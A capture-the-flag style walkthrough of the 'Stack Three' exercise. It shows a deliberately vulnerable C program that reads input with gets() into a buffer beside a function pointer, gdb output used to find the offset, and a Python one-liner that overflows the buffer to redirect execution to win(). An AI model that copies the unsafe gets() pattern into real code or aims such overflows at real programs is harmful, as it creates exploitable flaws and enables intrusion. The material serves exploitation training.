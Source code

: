 # Stack Three

> Stack3 looks at environment variables, and how they can be set, and overwriting function pointers stored on the stack (as a prelude to overwriting the saved EIP)
>
>
>
> **Hints**
>
> * both gdb and objdump is your friend you determining where the win() function lies in memory.

### Source code

```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void win()
{
  printf("code flow successfully changed\n");
}

int main(int argc, char **argv)
{
  volatile int (*fp)();
  char buffer[64];

  fp = 0;

  gets(buffer);

  if(fp) {
      printf("calling function pointer, jumping to 0x%08x\n", fp);
      fp();
  }
}
```

* There is a pointer `fp` which is set to 0. The program then jumps to the address in the `fp` pointer.
* The `win` function is what we want to call. However it is not called by the `main` function.
* Therefore we have to redirect program execution by overwriting the `fp` pointer.
* In order to do that, we have to know the address of the `win` function.

```
(gdb) x win
0x8048424 <win>:        0x83e58955
```

* So we set the value of `fp` to `0x08048424`.
* Let's look at the program in `gdb`.

```
(gdb) disassemble main
Dump of assembler code for function main:
0x08048438 <main+0>:    push   ebp
0x08048439 <main+1>:    mov    ebp,esp
0x0804843b <main+3>:    and    esp,0xfffffff0
0x0804843e <main+6>:    sub    esp,0x60
0x08048441 <main+9>:    mov    DWORD PTR [esp+0x5c],0x0
0x08048449 <main+17>:   lea    eax,[esp+0x1c]
0x0804844d <main+21>:   mov    DWORD PTR [esp],eax
0x08048450 <main+24>:   call   0x8048330 <gets@plt>
0x08048455 <main+29>:   cmp    DWORD PTR [esp+0x5c],0x0
0x0804845a <main+34>:   je     0x8048477 <main+63>
0x0804845c <main+36>:   mov    eax,0x8048560
0x08048461 <main+41>:   mov    edx,DWORD PTR [esp+0x5c]
0x08048465 <main+45>:   mov    DWORD PTR [esp+0x4],edx
0x08048469 <main+49>:   mov    DWORD PTR [esp],eax
0x0804846c <main+52>:   call   0x8048350 <printf@plt>
0x08048471 <main+57>:   mov    eax,DWORD PTR [esp+0x5c]
0x08048475 <main+61>:   call   eax
0x08048477 <main+63>:   leave
0x08048478 <main+64>:   ret
```

* We can see that the instruction at `main+57` is what sets up the function call.

```
0x08048471 <main+57>:   mov    eax,DWORD PTR [esp+0x5c]
0x08048475 <main+61>:   call   eax
```

* Let's find the distance between the `buffer` and `fp`.

```
(gdb) p/d 0x5c - 0x1c
$1 = 64
```

* Therefore we need 68 bytes in total, 64 bytes to fill the buffer and 4 bytes to overwrite the `fp` function pointer.
* Note that the value is stored in little-endian.

### Exploit

```
$  python -c 'print "A"*64 + "\x24\x84\x04\x08"' | ./stack3
calling function pointer, jumping to 0x08048424
code flow successfully changed
```
